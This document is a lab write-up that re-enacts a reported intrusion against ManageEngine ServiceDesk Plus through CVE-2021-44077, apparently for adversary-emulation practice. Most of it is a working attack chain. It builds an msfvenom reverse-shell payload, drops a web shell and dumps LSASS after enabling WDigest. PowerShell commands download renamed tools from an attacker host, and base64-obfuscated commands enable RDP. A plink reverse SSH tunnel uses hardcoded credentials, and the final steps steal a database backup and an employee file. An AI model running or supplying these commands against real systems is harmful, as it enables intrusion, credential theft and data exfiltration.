

# Sketching an attack based on "[Will the Real Msiexec Please Stand Up? Exploit Leads to Data Exfiltration](https://thedfirreport.com/2022/06/06/will-the-real-msiexec-please-stand-up-exploit-leads-to-data-exfiltration/)" Report

## 1. Hands On Action: Exploiting [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) Vulnerability based on POC in [GitHub](https://github.com/horizon3ai/CVE-2021-44077)

a. Based on the [POC](https://github.com/horizon3ai/CVE-2021-44077) msiexec.exe is created through `msfvenom`

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.134 LPORT=4444 -f exe > msiexec.exe
```

b. run your listener

```
nc -l 4444
```

c. run the exploit script

```
python3 exploit.py http://192.168.20.135:8080/ msiexec.exe
```



#### But this approach isn't the same as the [report](https://thedfirreport.com/2022/06/06/will-the-real-msiexec-please-stand-up-exploit-leads-to-data-exfiltration/), as in the report the Threat Actor dropped a web shell JSP file `jm2.jsp` and then accessed it.


#### So, I wrote a simple Python script that, when executed a `wbsh.jsp` is written to `\custom\login` directory


#### then used `pyinstaller` to convert it to an executable exe file


#### now we have `msiexec.exe`, let's use the exploit again


#### It Worked !!


#### `whoami` ?
> No Need for Privilege Escalation


<hr />

### 2. Next step we are enabling `WDigest` -> then dumping `LSASS`, -> then downloading it

a. Is WDigest Enabled?

```
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
```


b. Let's Enable it

```
Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'
```


> Yes it is Enabled!

c. Now we have clear plaintext passwords stored in `LSASS`
```
tasklist | findstr "lsass" 
```


d. Let's dump it
```
C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 668 C:\Windows\Temp\logctl.zip full
```

e. Download it


f. after downloading the logctl.zip file, i'ts empty , which was weird and tried multiple ways and every time when i dump it, its empty so i had to use `procdump.exe`. 


> I will be adding this part to the lab for more fun

g. Download `procdump.exe`

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')
```
> calc.exe == procdump.exe

h. Use `procdump.exe`
```
C:\windows\temp\calc.exe -accepteula -ma 668 C:\Windows\Temp\logct2.dmp
```


j. Download it


<hr />

### 3. We have the LSASS dump, we will skip the process of fetching the passwords for now, Let's Go to the next step where the attacker starts tunneling RDP connections over SSH

a. First, we will download `plink.exe` as `ekern.exe`
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file.exe', 'C:\windows\temp\ekern.exe')
```

b. By default, RDP is Disabled. Let's check first
```
Get-Service -Name TermService
```


c. Enable RDP, but let's base64 encode this and put it in one-line command

```
Set-Service -Name TermService -StartupType Automatic
Start-Service -Name TermService
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\' -Name 'fDenyTSConnections' -Value 0
```

d. Encoded:

```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U2V0LVNlcnZpY2UgLU5hbWUgVGVybVNlcnZpY2UgLVN0YXJ0dXBUeXBlIEF1dG9tYXRpYw0KDQpTdGFydC1TZXJ2aWNlIC1OYW1lIFRlcm1TZXJ2aWNlDQoNClNldC1JdGVtUHJvcGVydHkgLVBhdGggJ0hLTE06XFN5c3RlbVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlclwnIC1OYW1lICdmRGVueVRTQ29ubmVjdGlvbnMnIC1WYWx1ZSAw')) | Invoke-Expression}"
```

e. Run the encoded command and let's checkout

```
Get-Service -Name TermService
```


f. Download Bitvise SSH Server `192.168.1.2` and Configure credentials

```
username: H@ck3r
password: C@nt_D3f3nd_2021-44077
```

g. Let's write the FXS.bat file to run `ekern.exe` and establish a reverse SSH Connection to RDP

```
echo y|C:\Users\Temp\ekern.exe -ssh -P 443 -l H@ck3r -pw C@nt_D3f3nd_2021-44077 -R 127.0.0.1:49800:192.168.20.150:3389 192.168.1.2
```

h. Another base64? No need to download it

```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGJhdGNoQ29udGVudCA9ICdlY2hvIHl8QzpcV2luZG93c1xUZW1wXGVrZXJuLmV4ZSAtc3NoIC1QIDQ0MyAtbCBIQGNrM3IgLXB3IENAbnRfRDNmM25kXzIwMjEtNDQwNzcgLVIgMTI3LjAuMC4xOjQ5ODAwOjE5Mi4xNjguMjAuMTQ1OjMzODkgMTkyLjE2OC4xLjInDQokYmF0Y2hGaWxlUGF0aCA9ICdDOlxVc2Vyc1xWaWN0aW1cRG9jdW1lbnRzXEZYUy5iYXQnDQpTZXQtQ29udGVudCAtUGF0aCAkYmF0Y2hGaWxlUGF0aCAtVmFsdWUgJGJhdGNoQ29udGVudA==')) | Invoke-Expression}"
```


j. Let's run our batch...


k. Now It's RDP time


it WORKED !!


<hr />

### 4. Stealing Some Data
a. Download postgres DB backup of the ManageEngine ServiceDesk Plus application it's located at `C:\Program Files (x86)\ManageEngine\ServiceDesk\backup\backup_postgres_11303_fullbackup_07_19_2024_20_07\`


b. there is a file named `Employees.xls` located on the Desktop let's see it 


<hr />

## Conclusion

We started exploiting [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) Vulnerability based on POC in [GitHub](https://github.com/horizon3ai/CVE-2021-44077) then a wbsh.jsp file was dropped, and by using it we gained a web shell and after little enummuration we started to dump LSASS after enabling WDigest to allow passwords to be stored in plaintext format. 

Then we have downloaded ekern.exe which was a renamed version of [Plink](https://the.earth.li/~sgtatham/putty/0.58/htmldoc/Chapter7.html), and wrote a batch script `FXS.bat` to establish a reverse SSH connection to tunnel RDP connections over it. After that we stole some confedintial data like `backup_postgres_11303_fullbackup_07_19_2024_20_07_part_1.data` and `Employees.xls`.

> THIS WAS FUN !!

